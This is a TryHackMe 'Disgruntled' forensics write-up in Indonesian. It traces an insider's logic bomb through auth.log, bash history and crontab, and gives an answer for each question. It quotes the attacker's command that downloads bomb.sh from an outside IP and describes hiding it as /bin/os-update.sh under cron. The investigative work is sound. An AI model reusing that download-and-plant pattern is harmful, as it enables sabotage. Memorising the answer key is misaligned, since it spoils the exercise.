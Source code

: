 # Disgruntled
- TryHackMe Challenge: https://tryhackme.com/room/disgruntled
- IP Machine: 10.10.166.127

## Task 1 Introduction
- Akses machine dengan SSH kemudian masukkan password sesuai petunjuk soal
```sh
ssh root@IP_Machine
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%201.JPG)

## Task 3 Nothing suspicious... So far
- **Pertanyaan:** The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?
- Untuk menemukan jawabannya kita bisa mengecek file **/var/log/auth.log**. Kemudian untuk menginstall package biasanya diikuti kata "install", sehingga kita bisa memfilter log yang mengandung kata "install"
```sh
cat /var/log/auth.log | grep install
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%202.JPG)

- **Jawaban:**
```sh
/usr/bin/apt install dokuwiki
```

- **Pertanyaan:** What was the present working directory (PWD) when the previous command was run?
- Tinggal kita lihat nilai PWD di log

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%203.JPG)

- **Jawaban:**
```sh
/home/cybert
```

## Task 4 Let’s see if you did anything bad
- **Pertanyaan:** Which user was created after the package from the previous task was installed?
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "adduser"
```sh
cat /var/log/auth.log | grep adduser
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%204.JPG)

- **Jawaban:**
```sh
it-admin
```

- **Pertanyaan:** A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "visudo". Visudo adalah tool digunakan untuk memperbarui atau memodifikasi file sudoers.
```sh
cat /var/log/auth.log | grep visudo
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%205.JPG)

- **Jawaban:**
```sh
Dec 28 06:27:34
```

- **Pertanyaan:** A script file was opened using the "vi" text editor. What is the name of this file?
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "vi"
```sh
cat /var/log/auth.log | grep vi
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%206.JPG)

- **Jawaban:**
```sh
bomb.sh
```

## Task 5 Bomb has been planted. But when and where?
- **Pertanyaan:** What is the command used that created the file `bomb.sh` ?
- Dari pertanyaan Task 4, kita mengetahui bahwa file `bomb.sh` berada di path **/home/it-admin**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%207.JPG)

- Kemudian kita lihat riwayat perintah di path tersebut dengan bash history
```sh
cat /home/it-admin/.bash_history
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%208.JPG)

- **Jawaban:**
```sh
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

- **Pertanyaan:** The file was renamed and moved to a different directory. What is the full path of this file now?
- Dari pertanyaan Task 4, kita mengetahui bahwa penyerang menggunakan vi editor jadi kita bisa mengecek riwayat entry kemudian memfilter riwayat yang mengandung kata "saveas" untuk melacak perubahan nama file

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%209.JPG)

- **Jawaban:**
```sh
/bin/os-update.sh
```

- **Pertanyaan:** When was the file from the previous question last modified? (Format: Month Day HH:MM)
- Kita bisa menggunakan ls untuk mengetahui kapan file tersebut dimodifikasi terakhir kali. Namun sayangnya kita tidak dapat mengetahui pukul berapa file tersebut diubah
```sh
ls -la /bin | grep os-update
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2010.JPG)

- Kita dapat menggunakan tool date untuk menampilkan detail waktunya
```sh
date -r /bin/os-update.sh
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2011.JPG)

- **Jawaban:**
```sh
Dec 28 06:29
```

- **Pertanyaan:** What is the name of the file that will get created when the file from the first question executes?
- Buka file **os-update.sh**
```sh
cat /bin/os-update.sh
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2012.JPG)

- **Jawaban:**
```sh
goodbye.txt
```

## Task 6 Following the fuse
- **Pertanyaan:** At what time will the malicious file trigger? (Format: HH:MM AM/PM)
- Jika kita mempunyai malicious yang siap dijalankan maka file tersebut sudah pasti terjadwal di cron job. Kita bisa memeriksa file /etc/crontab untuk memastikannya
```sh
cat /etc/crontab
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Disgruntled/assets/d%2013.JPG)

- Secara berurutan setiap kolomnya mendefinisikan menit, jam, hari dalam sebulan, bulan, dan hari dalam seminggu.
- **Jawaban:**
```sh
08:00 AM
```